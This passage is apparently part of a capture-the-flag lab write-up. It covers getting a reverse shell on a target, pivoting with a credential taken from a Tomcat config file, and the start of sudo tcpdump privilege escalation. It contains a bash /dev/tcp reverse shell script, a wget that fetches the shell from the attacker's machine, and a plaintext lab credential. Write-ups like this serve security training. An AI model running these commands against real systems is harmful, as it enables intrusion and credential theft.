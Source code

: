 It didn't work, because it's getting ouputed:

![](Pasted%20image%2020250401111222.png)

So I'll craft a shell in my machine, then download it from the webshell and then execute it.

- First I create my web shell:

```shell
#!/bin/bash 
bash -i >& /dev/tcp/10.10.14.4/666 0>&1
```

- Now I initiate a python server.
- Then I do a `wget` in the webshell to download the shell and execute it:

```shell
wget http://10.10.14.4:8090/shell.sh -O /dev/shm/shell.sh
```

- Now I execute it:

```shell
bash /dev/shm/shell.sh
```

![](Pasted%20image%2020250401111612.png)

> I got a reverse shell :D

## Pivoting

As we've got no permission to read the content of `/home/james`, I'll try to find any credential on the machine. I found a credential inside `/var/lib/tomcat9/conf/tomcat-users.xml`

![](Pasted%20image%2020250401112110.png)

>Credentials: `james:IT14d6SSP81k`

It does not work from inside the machine (doesn't work with `su`), but it works by external ssh.

### User flag

![](Pasted%20image%2020250401112715.png)

## Privilege Escalation

If we run `sudo -l`:

```shell
sudo -l

[redacted]
(ALL) NOPASSWD: /usr/sbin/tcpdump
```

So I checked [GTFOBins](https://gtfobins.github.io/gtfobins/tcpdump/):
